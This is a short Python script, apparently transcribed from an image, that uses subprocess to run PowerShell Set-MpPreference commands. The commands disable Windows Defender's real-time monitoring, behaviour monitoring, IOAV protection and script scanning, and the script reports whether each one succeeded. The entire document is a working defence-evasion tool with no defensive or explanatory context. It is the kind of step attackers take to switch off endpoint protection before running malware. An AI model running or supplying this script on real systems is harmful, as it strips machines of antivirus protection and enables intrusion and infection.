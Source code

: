 import subprocess

# List of PowerShell commands to disable Defender protections
commands = [
    'Set-MpPreference -DisableRealtimeMonitoring $true',
    'Set-MpPreference -DisableBehaviorMonitoring $true',
    'Set-MpPreference -DisableIOAVProtection $true',
    'Set-MpPreference -DisableScriptScanning $true'
]

for cmd in commands:
    full_cmd = ['powershell', '-Command', cmd]
    try:
        subprocess.run(full_cmd, check=True)
        print(f"[+] Successfully ran: {cmd}")
    except subprocess.CalledProcessError:
        print(f"[-] Failed to run: {cmd}. Are you running as administrator?")

